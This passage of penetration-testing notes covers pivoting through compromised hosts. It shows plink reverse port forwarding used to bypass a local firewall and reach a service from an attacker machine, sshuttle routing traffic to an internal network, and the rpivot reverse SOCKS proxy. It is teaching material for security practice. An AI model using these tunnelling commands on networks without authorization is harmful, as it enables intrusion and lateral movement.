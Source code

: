 After configuring the SOCKS server for 127.0.0.1 and port 9050, we can directly start mstsc.exe to start an RDP session with a Windows target that allows RDP connections.


port 2805 is an example:
```
echo y|&./plink -R 2805:127.0.0.1:2805 -l <your username> -pw <your passwd> <your ip>
```
  
obs: make sure your ssh is open/started
```
sudo systemctl start ssh
```
the echo y is required the first time we run plink to tell it to accept the
ssh key of the server. The -R 2805:127.0.0.1:2805 is necessary to
bypass the local firewall and access veeam from your attacker
machine.
  
  
## SSH Pivoting with Sshuttle

Sshuttle is another tool written in Python which removes the need to configure proxychains. However, this tool only works for pivoting over SSH and does not provide other options for pivoting over TOR or HTTPS proxy servers. Sshuttle can be extremely useful for automating the execution of iptables and adding pivot rules for the remote host. We can configure the Ubuntu server as a pivot point and route all of Nmap's network traffic with sshuttle using the example later in this section.

One interesting usage of sshuttle is that we don't need to use proxychains to connect to the remote hosts.
```
sudo apt-get install sshuttle
```
```
https://github.com/sshuttle/sshuttle
```


To use sshuttle, we specify the option -r to connect to the remote machine with a username and password. Then we need to include the network or IP we want to route through the pivot host, in our case, is the network 172.16.5.0/23.
```
sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/23 -v 
```

With this command, sshuttle creates an entry in our iptables to redirect all traffic to the 172.16.5.0/23 network through the pivot host.


We can now use any tool directly without using proxychains.


## Web Server Pivoting with Rpivot
```
https://github.com/klsecservices/rpivot
```
Rpivot is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side.
